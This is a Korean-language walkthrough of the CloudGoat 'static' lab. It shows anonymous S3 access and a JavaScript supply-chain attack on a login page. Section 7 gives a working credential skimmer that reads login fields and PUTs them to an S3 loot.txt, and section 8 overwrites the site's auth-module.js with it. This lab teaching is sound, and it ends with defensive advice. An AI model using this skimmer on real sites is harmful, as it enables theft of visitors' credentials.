

# 9th Scenario: Static

[← CloudGoat 시나리오 목록](../README.md)

난이도: Moderate



# 진행

## 1. 시나리오 생성

- start.txt 확인


오 이번에는 API가 따로 있거나 그러지는 않은 상황이다. 보이는 바와 같이 웹사이트만 제공이 된다. 


사이트를 들어가니 Employee로 로그인하는 웹사이트를 확인할 수 있다. 그리고 도메인에 /login.html이라고 되어 있는 것을보니 xss가 되는 건가 싶기도 하다. 

## 2. 이번에는 왜 IAM 키를 주지 않는가?

이번 시나리오의 시작점은 IAM 사용자가 아니라 외부 방문자야.

이전 문제들은 보통 다음 형태였어.

```
제공받은 Access Key
→ aws configure
→ IAM 정책 조사
→ 더 강한 권한 획득
```

이번 문제는 다음 형태다.

```
인증되지 않은 인터넷 사용자
→ 웹 페이지 분석
→ 외부 S3 정적 파일 발견
→ 익명 S3 권한 점검
→ JavaScript 공급망 변조
→ 관리자 봇의 입력 탈취
```

따라서 `aws configure --profile ...`로 공격용 프로필을 만들지 않는다. AWS CLI를 사용하긴 하지만 `--no-sign-request` 옵션으로 인증 없이 요청한다.

```
cloudgoat-lab
→ 시나리오를 생성·삭제하는 관리자 프로필

익명 공격자
→ --no-sign-request로 S3 접근
```

풀이할 때 `cloudgoat-lab`으로 S3를 조회하면 안 돼. 관리자 권한으로 성공한 것인지, 실제 익명 공개 권한 때문에 성공한 것인지 구분할 수 없기 때문이다.

## 3. `static`은 무엇을 뜻하는가?

웹사이트는 보통 두 종류의 내용을 제공한다.

```
동적 내용
→ 서버가 요청마다 계산
→ 로그인 처리, DB 조회, 결제 처리

정적 자산
→ 미리 저장된 파일을 그대로 전달
→ JavaScript, CSS, 이미지, 폰트
```

이번 웹 페이지 자체는 EC2의 Apache 서버에서 제공하지만, JavaScript와 로고는 S3 버킷에서 불러온다.

```
<script src="https://cg-assets-...s3.amazonaws.com/auth-module.js"></script>
```

구조는 다음과 같다.

```
사용자 브라우저
  ├─ EC2에서 login.html 다운로드
  ├─ S3에서 logo.svg 다운로드
  └─ S3에서 auth-module.js 다운로드 후 실행
```

`auth-module.js`는 단순 데이터가 아니라 브라우저에서 실행되는 코드다. 공격자가 이 파일을 바꿀 수 있으면 웹 서버를 직접 해킹하지 않아도 해당 페이지를 방문한 사람의 브라우저에서 공격자 코드를 실행할 수 있다.

이것이 이번 문제에서 말하는 공급망 공격이야.

## 4. 웹페이지 정찰

생성 후 URL을 변수로 넣어.

```
TARGET_URL="http://생성된_EC2_IP"
```

접속 상태 확인:

```
curl -I "$TARGET_URL"
```

정상이라면 `200 OK` 또는 `/login.html`로 이동하는 응답이 온다.


이런 웹부분은 사실 거의 처음해봐서… 열심히 해봐야할 것 같다. 

브라우저에서는 다음 주소를 열어.

```
http://생성된_EC2_IP
```

그다음:

```
우클릭 → 페이지 소스 보기
```


어 이런 것이 있는 건 진짜 처음 알았다. 

조금 읽어보니 head에는 [https://cg-assets-cgidt4n8hkykfo.s3.amazonaws.com/auth-module.js](https://cg-assets-cgidt4n8hkykfo.s3.amazonaws.com/auth-module.js) 가 있고

다른 body에는 [https://cg-assets-cgidt4n8hkykfo.s3.amazonaws.com/logo.svg](https://cg-assets-cgidt4n8hkykfo.s3.amazonaws.com/logo.svg) 가 있는 것을 볼 수 있었다. 

또한 s3 버킷 이름도 [cg-assets-cgidt4n8hkykfo](https://cg-assets-cgidt4n8hkykfo.s3.amazonaws.com/logo.svg) 이렇게 있는 것을 볼 수 있다. 


## 5. 익명 S3 접근 확인

S3 버킷을 인증 없이 조회한다.

```
aws s3 ls "s3://${BUCKET_NAME}/" \
  --no-sign-request
```

정상적으로 다음 파일들이 나오면 익명 사용자에게 `s3:ListBucket`이 허용된 것이다.

```
auth-module.js
logo.svg
```


보면은 -no-sign-request가 없으면 credential이 없다고 뜨고, 저 옵션을 붙이면 다른 파일들이 나오는 것을 볼 수 있다. 안그래도 궁금했는데 바로 아래에 설명이 있다. 

- `-no-sign-request`의 의미는 다음과 같아.

```
일반 AWS CLI 요청
→ Access Key로 요청에 서명
→ AWS가 IAM 신원을 확인

--no-sign-request
→ 요청에 AWS 서명 없음
→ 익명 인터넷 사용자로 요청
```

따라서 이 명령이 성공하면 “내 IAM 권한이 있어서 성공했다”가 아니라 “버킷이 익명 접근을 허용한다”는 뜻이다.

현재 정상 JavaScript도 확인해.

```
aws s3 cp \
  "s3://${BUCKET_NAME}/auth-module.js" \
  - \
  --no-sign-request
```

대략 다음처럼 단순한 코드가 나온다.

```
console.log('Hacksmarter Auth Module v1.2 loaded.');
```


실제로 동일하게 나오는 것을 볼 수 있었다. 

원본은 복구용으로 저장해두는 게 좋아. 

```
aws s3 cp \
  "s3://${BUCKET_NAME}/auth-module.js" \
  ./auth-module.original.js \
  --no-sign-request
```


일단 저장은 해 두었다. 

## 6. 왜 공개 읽기보다 공개 쓰기가 더 위험한가?

정적 웹 자산은 공개 읽기가 필요한 경우가 있다.

```
s3:GetObject
→ 방문자가 JavaScript와 이미지를 다운로드
```

하지만 다음 권한까지 익명에게 열려 있으면 문제가 달라진다.

```
s3:PutObject
→ 누구나 파일을 생성하거나 덮어쓸 수 있음
```

이번 버킷 정책은 `Principal: "*"`에 다음 권한을 허용한다.

```
s3:GetObject
s3:ListBucket
s3:PutObject
```

단, 아무 IP에서나 가능한 것은 아니고 다음 IP로 제한돼 있다.

```
네 whitelist IP
EC2 관리자 봇의 EIP
```

그래서 시나리오 생성 전에 whitelist를 현재 IP로 갱신한 것이다.

## 7. 공급망 변조용 JavaScript 작성

VS Code에서 파일을 열어.

```
code malicious_auth.js
```

다음 코드를 저장한다. `BUCKET_NAME` 부분은 실제 버킷 이름으로 바꿔야 한다.

```
window.addEventListener("load", function () {
    const loginButton = document.getElementById("login-btn");

    loginButton.addEventListener("click", function () {
        const username =
            document.getElementById("username").value;

        const password =
            document.getElementById("password").value;

        const captured =
            "CAPTURED CREDENTIALS:\n" +
            "Username: " + username + "\n" +
            "Password: " + password;

        const lootUrl =
            "https://BUCKET_NAME.s3.amazonaws.com/loot.txt";

        fetch(lootUrl, {
            method: "PUT",
            body: captured,
            keepalive: true
        });
    });
});
```

예를 들어 버킷 이름이 `cg-assets-cgidabcdef1234`라면:

```
const lootUrl =
    "https://cg-assets-cgidabcdef1234.s3.amazonaws.com/loot.txt";
```


s3 버킷의 이름을 넣어 작성을 완료하였고, PUT으로 보내는 것을 보아 덮어쓰기라는 것을 확인할 수 있다. 

코드가 하는 일:

```
1. 페이지가 완전히 로드될 때까지 기다림
2. 로그인 버튼을 찾음
3. 버튼 클릭을 감시
4. username과 password 입력값을 읽음
5. S3의 loot.txt로 PUT 요청
```

외부 S3에서 불러온 JavaScript라도 `<script src=...>`로 페이지에 포함되면 그 페이지의 실행 문맥에서 동작한다. 따라서 로그인 입력 필드의 DOM 값을 읽을 수 있다.

S3에는 CORS도 다음처럼 느슨하게 설정돼 있다.

```
Allowed Origins: *
Allowed Methods: GET, PUT, POST
Allowed Headers: *
```

그래서 브라우저에서 S3로 보내는 익명 `PUT` 요청이 허용된다.

## 8. 악성 파일로 원본 덮어쓰기

작성한 파일을 먼저 확인해.

```
sed -n '1,200p' malicious_auth.js
```


그다음 S3의 정상 파일 이름인 `auth-module.js`에 덮어쓴다.

```
aws s3 cp \
  ./malicious_auth.js \
  "s3://${BUCKET_NAME}/auth-module.js" \
  --no-sign-request \
  --content-type application/javascript \
  --cache-control no-cache
```

성공하면 다음 형태의 메시지가 나온다.

```
upload: ./malicious_auth.js to s3://.../auth-module.js
```


실제 파일이 바뀌었는지 확인한다.

```
curl -sS \
  "https://${BUCKET_NAME}.s3.amazonaws.com/auth-module.js"
```

여기에 작성한 코드가 나오면 변조가 성공한 것이다.

실제로 변조된 코드가 나오는 것을 볼 수 있다. 


이 단계에서 네 브라우저도 새 코드를 받도록 강력 새로고침할 수 있어.

```
Ctrl+F5
```

하지만 최종 목표는 네 입력이 아니라 EC2 안에서 주기적으로 실행되는 관리자 봇의 입력이야.

## 9. 관리자 봇은 무엇인가?

EC2에는 Selenium과 Chromium으로 만든 자동 브라우저가 들어 있다. 약 30초마다 다음 작업을 수행한다.

```
1. http://localhost/login.html 접속
2. 관리자 계정 ID 입력
3. 관리자 비밀번호 입력
4. Sign In 버튼 클릭
5. 30초 뒤 반복
```

봇도 페이지를 열 때 S3의 `auth-module.js`를 다운로드한다.

```
관리자 봇
→ 정상 login.html 열기
→ 변조된 auth-module.js 다운로드
→ 관리자 입력값을 loot.txt에 저장
```

공격자가 웹 서버나 봇에 직접 접속할 필요가 없는 이유가 이것이다.

## 10. 결과 확인

현재 관리자 봇의 오류로 성공하지못하고 있다… 

파일을 덮어쓴 뒤 약 30~90초 기다리고 S3 목록을 다시 확인한다.

```
aws s3 ls "s3://${BUCKET_NAME}/" \
  --no-sign-request
```

다음 파일이 생겼는지 확인해.

```
loot.txt
```

내용 확인:

```
aws s3 cp \
  "s3://${BUCKET_NAME}/loot.txt" \
  - \
  --no-sign-request
```

여기에 관리자 봇이 입력한 계정 정보와 시나리오 목표값이 나온다.

`loot.txt`가 생기지 않으면 다음 순서로 점검하면 된다.

```
# 변조된 JavaScript가 실제 S3에 있는지
curl -sS \
  "https://${BUCKET_NAME}.s3.amazonaws.com/auth-module.js"

# 웹사이트가 응답하는지
curl -I "$TARGET_URL/login.html"

# S3 목록에 파일이 있는지
aws s3 ls "s3://${BUCKET_NAME}/" \
  --no-sign-request
```

배포 직후에는 EC2가 Chromium과 Selenium을 설치하는 데 시간이 걸릴 수 있으므로 봇이 즉시 시작되지 않을 수도 있어.

## 11. 이 문제에서 배워야 할 관계

```
EC2 웹 서버
  └─ 외부 S3의 JavaScript를 신뢰

S3 Bucket Policy
  └─ 익명 PutObject 허용

공격자
  └─ 신뢰받는 JavaScript 덮어쓰기

관리자 봇
  └─ 변조된 JavaScript 실행

브라우저
  └─ 입력정보를 loot.txt로 전송
```

웹 서버의 HTML이나 로그인 서버 자체가 안전해도, 외부에서 불러오는 JavaScript 한 파일이 변조되면 페이지 전체의 신뢰가 무너진다. 실무에서는 S3 공개 쓰기를 금지하고, 배포 Role에만 `PutObject`를 허용하며, 콘텐츠 해시 또는 Subresource Integrity 같은 보호 장치를 함께 고려한다.

## 12. 종료할 때

이번에 직접 생성한 `loot.txt`와 덮어쓴 `auth-module.js`는 모두 시나리오 버킷 안에 있다. 이 버킷은 `force_destroy`로 설정되어 있어 CloudGoat가 함께 제거할 수 있다.

```
cd ~/.local/lib/python3.10/site-packages/cloudgoat

cloudgoat destroy "static_실제CGID" \
  --profile cloudgoat-lab
```